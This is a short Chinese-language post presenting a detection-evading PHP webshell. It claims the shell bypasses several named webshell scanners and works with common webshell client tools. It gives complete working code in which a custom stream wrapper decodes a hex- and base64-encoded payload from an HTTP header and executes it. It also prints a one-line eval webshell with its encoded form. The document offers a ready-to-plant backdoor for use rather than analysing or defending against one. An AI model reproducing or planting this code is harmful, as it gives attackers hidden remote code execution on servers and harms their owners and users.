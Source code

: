 ```yaml
---
title: php流包装免杀webshell
date: 2024-07-23 11:43:16
---
```


## webshell免杀（php）

理论支持通杀所有PHP版本。

支持哥斯拉、蚁剑、冰蝎。

绕过长亭百川云Webshell引擎、河马webshell查杀引擎、D盾查杀。

使用方法：

添加自定义头：key=xxx

其中xxx是上述马子的base64编码再hex编码。

例如：

`<?php @eval($_POST['cmd']);?>`

经base64编码以及hex编码后：

`5044397761484167514756325957776f4a46395154314e555779646a6257516e58536b37507a343d`

连接时添加自定义头：

`key: 5044397761484167514756325957776f4a46395154314e555779646a6257516e58536b37507a343d`

```

<?php  
​  
# base64->hex  
# 把需要连接的webshell进行base64编码再hex编码，然后连接时，自定义请求头加上key: xxx(编码后的webshell)  
      
$header = "key";  
​  
function app() {  
    include 'app://config.yaml';  
}  
​  
function hex2str($hex_str) {  
    if (strlen($hex_str) % 2 != 0) {  
        echo "error";  
        return false;  
    }  
    $str = '';  
    for ($i = 0; $i < strlen($hex_str); $i += 2) {  
        $str .= chr(hexdec($hex_str[$i] . $hex_str[$i+1]));  
    }  
    return $str;  
}  
​  
class Stream {  
    private $position;  
    private $code;  
​  
    public function stream_open($path, $mode, $options, &$opened_path) {  
        $url = parse_url($path);  
        $this->code = $GLOBALS[$url["host"]];  
        $this->position = 0;  
        return true;  
    }  
​  
    public function stream_read($count) {  
        $result = substr($this->code, $this->position, $count);  
        $this->position += strlen($result);  
        return $result;  
    }  
​  
    public function stream_eof() {  
        return $this->position >= strlen($this->code);  
    }  
​  
    public function stream_stat() {  
        return "";  
    }  
}  
​  
​  
stream_wrapper_register("app", "Stream") or die("error!");  
$stream = @base64_decode(hex2str($_SERVER["HTTP_".strtoupper($header)]));  
$GLOBALS['config.yaml'] = $stream;  
​  
@app();
```
